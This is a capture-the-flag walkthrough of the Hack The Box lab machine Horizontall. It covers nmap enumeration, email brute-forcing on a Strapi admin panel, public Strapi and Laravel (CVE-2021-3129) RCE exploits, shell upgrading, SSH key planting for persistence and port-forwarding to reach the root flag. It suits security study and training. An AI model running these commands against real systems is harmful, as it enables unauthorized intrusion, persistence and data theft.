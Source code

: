 # HTB Horizontall

### Enumeration
As with most, if not all htb machines, we add horizontall.htb to the hosts file on the attacking machine.

![Step 0](screenshots/hosts-file.png "Setup hosts file")

Initial scan with nmap shows ports 22, 80, 8082 and 8085 are open.

` nmap -Pn -p- -vv -sS -A -oA all-ports horizontall.htb`

![Step 1](screenshots/nmap-scan.png "Nmap Scan")

Check out the site on port 80. Notice that none of the clickable content works.
Look at the javascript that loads the page.

![Step 2](screenshots/subdomain-1.png "Finding a Subdomain 1")

On one of the javascript pages, a subdomain is found
(http://api-prod.horinzall.htb/review).

![Step 3](screenshots/subdomain-2.png "Finding a Subdomain 2")

Add this subdomain to hosts file for easy access.

![Step 4](screenshots/edit-hosts-file.png "Finding a Subdomain 3")

From here, a json payload can be found at http://api-prod.horinzall.htb/review.
Dirb leads to an admin page for a strapi web application.
A quick search at exploit-db.com shows 2 exploits for strapi.
The [first](
https://www.exploit-db.com/exploits/50237 
"50237") exploit allows an attacker to get unauthenticated access.
The [second](
https://www.exploit-db.com/exploits/50238 
"50238") exploit allows an attacker to use authenticated access to remotely execute code.
To use the first exploit, the attacker will need a valid email address.
Unfortunately for strapi, a valid email can be bruteforced using the "Forget Email" function.
When an invalid email is provided, a warning message appears telling the attacker it doesn't exist.
If a valid email is provided, no warning appears.

![Step 5.1](screenshots/email-validation-1.png "Email Validation 1")
![Step 5.2](screenshots/email-validation-2.png "Email Validation 2")

Using admin@horizontall.htb, an attacker is able to leverage the The [first](
https://www.exploit-db.com/exploits/50237 
"50237") exploit to change the password and login.

![Step 6](screenshots/admin-login.png "Admin Page Login")


### Foothold

For the [second](
https://www.exploit-db.com/exploits/50238 
"50238") exploit, the attacker just needs the Bearer token from an authenticated session.

![Step 7](screenshots/bearer-authorization-token.png "Bearer Token")

Use `/bin/sh` as the command in second exploit to get a shell.
To upgrade access to tty, use python `python -c 'import pty; pty.spawn("/bin/bash")'`.

NOTE: I have modified the exploit so that I can have netcat open in a second terminal to help with viewing.

![Step 8](screenshots/strapi-rce.png "Second Exploit")


### User Flag

Check for local users `cat /etc/passwd`.

![Step 9](screenshots/passwd.png "Check passwd File")

Check user developer's home directory for the flag.

![Step 10](screenshots/user-flag.png "User Flag")

### Root

The attacker is able to find some credentials in `/opt/strapi/myapi/config/environments/development/database.json`
to the mysql database.
There are some configurations stored in the database.
Some configurations point locally to port 1337.
Check netstat for any other interesting ports to show themselves.

![Step 11](screenshots/netstat.png "Netstat")

Use `curl` to check out ports 1337 and 8000.
Port 8000 some code for returns Laravel v8.
There is an RCE (Remote Code Execution) exploit possibility [here](
https://github.com/khanhnv-2091/laravel-8.4.2-rce 
"laravel-8.4.2-rce").

NOTE: The exploit will pull a different git repo to craft the payload being used.
Because of this, the attacker will have to create a port forwarding SSH tunnel from the attacker to the victim.

Create an SSH key on the victim and allow access without using a password:
```
mkdir ~/.ssh
ssh-keygen
echo $(cat /opt/strapi/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys
cat id_rsa
```

Use the id_rsa key on the attacking host and execute the second exploit.
```
nano id_rsa  # Drop in the whole id_rsa key and save.
chmod 600 id_rsa
ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb
git clone https://github.com/nth347/CVE-2021-3129_exploit
cd CVE-2021-3129_exploit
chmod +x exploit.py
./exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
```

SSH NOTE: The following is opening port 8000 locally on the attacking host.
All traffic directed to port 8000 on the attacking host will go through the SSH tunnel to 127.0.0.1 port 8000 on the victim.

![Step 12](screenshots/root-flag.png "Root Flag")